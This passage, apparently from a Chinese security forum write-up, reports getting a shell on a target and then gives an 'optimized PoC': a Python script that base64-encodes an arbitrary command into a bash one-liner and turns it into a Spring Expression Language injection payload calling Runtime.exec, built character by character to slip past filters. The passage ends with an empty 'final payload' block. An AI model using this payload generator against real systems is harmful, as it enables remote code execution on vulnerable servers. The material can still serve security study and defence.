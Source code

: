 成功拿到shell

![image-20210521085734350](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-c81eef1b4b1019f951837075332d56b7c5c379b2.png)

#### 优化Poc

```php
#!/usr/bin/env python
import base64
message = input('Enter message to encode:')
message = 'bash -c {echo,%s}|{base64,-d}|{bash,-i}' % bytes.decode(base64.b64encode(message.encode('utf-8')))
print(message)
poc = '${T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(%s)' % ord(message[0])
for ch in message[1:]:
 poc += '.concat(T(java.lang.Character).toString(%s))' % ord(ch)
poc += ')}'
print(poc)
```

![image-20210521090415010](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-a6e7079d568b060ff7d4bf96474d2fca3d4580e3.png)

![image-20210521090655856](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-20f96d2ce9070b7d94244d0c68497ec307530aa5.png)

最终的payload

```php
```